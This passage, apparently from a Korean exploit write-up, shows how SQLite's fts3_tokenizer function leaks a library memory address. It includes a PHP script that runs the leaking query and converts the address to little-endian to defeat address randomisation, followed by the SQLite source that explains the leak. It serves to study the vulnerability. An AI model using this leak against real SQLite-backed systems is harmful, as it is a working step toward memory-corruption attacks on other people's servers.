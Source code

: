 ### fts3 module base address leaked

- sqlite3 에는 `simple`, `porter`, `unicode64` ... 과 같은 몇 가지의 build-in tokenizer가 있습니다.

```php
select hex(fts3_tokenizer('simple'));
							↑
					16 진수 문자열 반환 (빅 엔디안 주소)
```

![PHP](./5.png)

- `fts_tokenizer` 는 등록된 tokenizer의 주소를 `BLOB` 인코딩되어 반환하게 되고 built-in-tokenizer를 Query 하게 되면 lib-sqlite3 라이브러리 메모리 영역의 주소가 노출됩니다.
- 해당 주소를 기반으로 ASAR을 우회하기 위해 리틀 엔디안으로 변환 작업을 진행합시다.

```php
<?php
function flip($val) {
  $len = strlen($val);
  $result = '';
  for ($i = $len; $i > 2; $i-=2) {
    $result .= substr($val, $i - 2, 2);
  }
  $result .= substr($val, 0, $i);
  $result .= str_repeat('0', 16 - $len);
  return $result;
}

$db = new SQLite3(":memory:");
$row = $db->query("select hex(fts3_tokenizer('simple')) addr;")->fetchArray();
$leaked_addr = $row['addr'];
echo flip($leaked_addr);
$db->close();
?>
```

- 취약한 부분의 쿼리를 PHP 코드로 작성하여 쿼리를 수행하여 메모리 릭을 진행합시다.

![PHP](./6.png)

- 그렇다면, 해당 부분은 왜 메모리 릭이 가능하지 살펴봅시다.

```php
/* Load the built-in tokenizers into the hash table */
  if( rc==SQLITE_OK ){
    if( sqlite3Fts3HashInsert(pHash, "simple", 7, (void *)pSimple)
     || sqlite3Fts3HashInsert(pHash, "porter", 7, (void *)pPorter) 
     || (pIcu && sqlite3Fts3HashInsert(pHash, "icu", 4, (void *)pIcu))
    ){
      rc = SQLITE_NOMEM;
    }
  }

static const sqlite3_tokenizer_module simpleTokenizerModule = {
 0,
 simpleCreate,
```